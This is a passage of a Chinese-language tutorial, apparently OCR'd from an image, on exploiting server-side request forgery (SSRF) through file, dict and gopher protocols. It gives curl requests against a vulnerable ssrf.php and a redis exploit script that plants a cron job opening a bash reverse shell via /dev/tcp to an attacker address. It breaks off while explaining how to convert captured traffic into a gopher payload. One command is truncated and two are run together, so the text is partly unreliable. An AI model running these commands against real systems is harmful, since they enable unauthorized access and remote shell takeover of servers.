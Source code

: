 （3）使用gopher协议(俗称万能协议) gopher protocol (一键反弹Bash)

**远程利用方式**

1.利用`file`协议

任意文件读取

```
curl -v 'http://x.x.x.x:xxxx/ssrf.php?url=fil
```

2.利用`dict`协议

（1）查看端口及端口上运行服务的版本信息

```
curl -v 'http://39.x.x.x:8000/ssrf.php?url=dict://127.0.0.1:22/'
```

说明22端口开放

（2）通过dict协议getshell

有关dict协议：向服务器的端口请求 命令:参数，并在末尾自动补上\r\n(CRLF)。

dict协议要一条一条的执行，而gopher协议执行一条命令就行了。

一条一条的执行就可以了。

3.利用gopher协议

（1）攻击内网redis并反弹shell

利用redis未授权访问攻击redis

攻击redis的exp

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/1234 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1 

redis-cli -h $1 -p $2 config set dir /var/spool/cron/ 

redis-cli -h $1 -p $2 config set dbfilename root 

redis-cli -h $1 -p $2 save redis-cli -h $1 -p $2 quit
```

```
bash shell.sh x.x.x.x 6379
```

从而捕获到数据，并进行转换

转换规则如下：

如果第一个字符是>或者<那么丢弃该行字符串，表示请求和返回的时间。

如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。

将\r字符串替换成%0d%0a
